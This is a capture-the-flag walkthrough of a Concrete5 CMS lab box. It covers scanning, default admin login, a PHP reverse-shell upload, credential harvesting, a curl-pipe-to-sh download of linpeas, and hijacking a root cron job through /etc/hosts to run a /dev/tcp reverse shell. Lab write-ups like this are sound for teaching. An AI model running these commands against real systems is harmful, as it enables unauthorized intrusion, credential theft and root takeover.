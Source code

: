 # How to access the admin panel
Scan the website using nmap:
```BASH
nmap -sV VICTIM_IP_ADDRESS
```
Nmap reveals that port 85 is open:

![image](https://github.com/user-attachments/assets/d0e4f543-0a32-4e3a-9baf-21c18ce4db59)


Run Gobuster after completing the Nmap scan. The results reveal the /app directory:
```BASH
gobuster dir -u "http://VICTIM_IP_ADDRESS:85/" -w /usr/share/wordlists/dirb/small.txt -t 64
```
![Bez tytułu](https://github.com/user-attachments/assets/5cf1f095-12b2-4022-abd1-26df6afa62e9)

Click the "Jump" button, which triggers a redirect:

![image](https://github.com/user-attachments/assets/5a8c3552-8589-41f3-8828-bd6d1a132a19)

Further enumeration reveals a database.php file located in /config, which will be useful later:

![image](https://github.com/user-attachments/assets/366199be-a023-4fb6-9a7c-64de12f49556)

At the bottom of the page, there's information indicating that the site uses the Concrete5 CMS:

![image](https://github.com/user-attachments/assets/724469aa-2898-40f5-9a0c-3b57745afaa0)

Clicking the "Log in" button redirects to the login panel, which shows a standard admin login form. The default credentials are:
<pre>Username: admin</pre>
<pre>Password: password</pre>

<br><br>
# How to get a reverse shell
## On the victim machine
Go to System Settings → Files → Allowed File Types. Add php to the list of allowed file types:

![image](https://github.com/user-attachments/assets/9a76b22e-0758-4501-8a17-ca3c46b68cc1)

Create a shell.php file on the attacker's machine: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php   
Upload a PHP reverse shell:

![image](https://github.com/user-attachments/assets/8c92daa3-47ef-423f-96d3-76a197717059)  

A popup window will show the path to the uploaded file:
```BASH
http://VICTIM_IP_ADRESS:85/app/castle/application/files/6217/4308/6870/shell.php
```

## On the attacker machine
Start a listener:
```BASH
nc -lvnp 4444
```

Go back to browser and in new tab go to:
```BASH
http://VICTIM_IP_ADRESS:85/app/castle/application/files/6217/4308/6870/shell.php
```

Once the shell is triggered, upgrade the session:
```BASH
python3 -c 'import pty; pty.spawn("/bin/bash")'
``` 
![image](https://github.com/user-attachments/assets/9d5bac6d-1e00-4ef2-96ed-1b3a7aa1d1cc)

<br><br>
# Get User Credentials
Go back to the database.php file found during gobuster enumeration. It contains credentials for the toad user:

![image](https://github.com/user-attachments/assets/c177072f-b9d0-45c7-b119-4bcc48774eca)

Switch to that user:
```BASH
su toad
``` 
In the toad home directory, there's no user.txt or root.txt, but we can extract credentials for mario from the environment variables:

![image](https://github.com/user-attachments/assets/f467a7ab-fe55-4fb8-ad63-98154e493d70)  

Use CyberChef to decode the Base64 password. The result: <pre>ikaTeNTANtES</pre>

Now log in as mario. Inside the mario directory, use less to read the user.txt flag:

![image](https://github.com/user-attachments/assets/0834e2fd-2a48-4ec2-a16a-f84c0b150d06)  

Root access is required for the root.txt.
 
<br><br>
# How to get root
We’ll use:
1.	linpeas.sh: http://michalszalkowski.com/security/linpeas/
2.	Documentation: https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

## On the attacker machine
Download linpeas.sh:
```BASH
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh chmod +x linpeas.sh
```

Start a local HTTP server:
```BASH
sudo python3 -m http.server 9000
```

## On the victim machine
Download and run linpeas.sh:
```BASH
curl <attacker_machine_ip_adress>/linpeas.sh | sh
```

During the scan we can see that /etc/hosts is writable.

![image](https://github.com/user-attachments/assets/9ec6d78b-bf12-4972-990f-988be268f138)

After checking all running processes and cron jobs, there is a cron job which executes with root privilege every minute: 
```BASH
curl mkingdom.thm:85/app/castle/application/counter.sh
```

To redirect mkingdom.thm to the attacker's IP:
```BASH
echo "ATTACKER_IP_ADDRESS   mkingdom.thm" >> /etc/hosts
```

However, this alone doesn't work, because cron still resolves to 127.0.1.1:

![image](https://github.com/user-attachments/assets/db84ae46-3c58-4a6a-8c23-40b4bc6fa090)

The workaround is to overwrite the entire file manually:
```BASH
cat << EOF > /tmp/hosts_fixed
127.0.0.1       localhost
127.0.0.1       backgroundimages.concrete5.org
127.0.0.1       www.concrete5.org
127.0.0.1       newsflow.concrete5.org

::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

ATTACKER_IP_ADDRESS    mkingdom.thm
EOF
```

Copy custom /tmp/hosts_fixed file and overwrite the system’s /etc/hosts file with it.
```BASH
cp /tmp/hosts_fixed /etc/hosts
```

As shown below, the cron job is configured to reach the attacker's machine:

![image](https://github.com/user-attachments/assets/466df7d9-9eba-4e64-8704-baf2c15270f8)

## On the attacker machine
Create the folder structure:
```BASH
mkdir -p app/castle/application
cd app/castle/application
```

After that create counter.sh:
```BASH
cat << EOF > counter.sh
#!/bin/bash
bash -i >& /dev/tcp/<attacker_machine_ip_address>/4444 0>&1
EOF
```

Lastly change permission to executable:
```BASH
chmod +x counter.sh
```

Full process:

![image](https://github.com/user-attachments/assets/bdcd3fc4-7ebe-40b0-9e55-fc67dca3001b)

In two separate terminals run:
```BASH
python3 -m http.server 85
```
```BASH
nc -lvnp 4444
```

Wait for cron to trigger:

![image](https://github.com/user-attachments/assets/f390b7ce-7501-4bf4-b7c8-bccf738083ad)
![image](https://github.com/user-attachments/assets/f734f8b5-5c6b-46cf-a38d-204315b04709)

Get reverse shell as root:

![image](https://github.com/user-attachments/assets/d09eb426-53c8-4e87-81af-c42d098a7f0c)

Use less to check flag:

![image](https://github.com/user-attachments/assets/e03dee91-a4fe-4886-be92-681dbabda795)
